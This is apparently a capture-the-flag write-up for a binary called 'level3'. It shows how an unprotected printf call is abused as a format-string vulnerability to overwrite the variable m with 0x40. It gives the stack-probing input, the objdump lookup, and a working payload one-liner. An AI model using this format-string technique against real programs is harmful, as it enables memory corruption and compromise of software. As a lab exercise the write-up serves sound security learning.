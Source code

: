 While decompiling the binary we can observe the use of the function `printf` without any protection. We could then exploit this function to write a wanted value in a desired variable. For exemple, we could write `0x40` (64 in decimal) in the variable `m`.

## Investigation

First, we need to know where or input are located in the stack. For this we can give the binary an input like `AAAA.%x.%x.%x.%x.%x.%x.%x.%x`. Giving this, we got the ouput
```
AAAA.200.b7fd1ac0.b7ff37d0.41414141.2e78252e.252e7825.78252e78.2e78252e
```
We can then observe that our input string is the 4th argument in the stack.

Second, we need to know where the variable `m` is stored. We can execute `objdump -t ./level3 | grep m`.
```
0804988c g     O .bss   00000004              m
```
We now know that `m` is located at `0x0804988c`.

## Exploit

We can use an exploit like `<target location>%<value - 4>x%<string argument>$n`. In our case that would give us `\x8c\x98\x04\x08%60x%4$n` (location written in little endian).

```shell
(cat <(python -c 'print "\x8c\x98\x04\x08%60x%4$n"') -) | ./level3
```
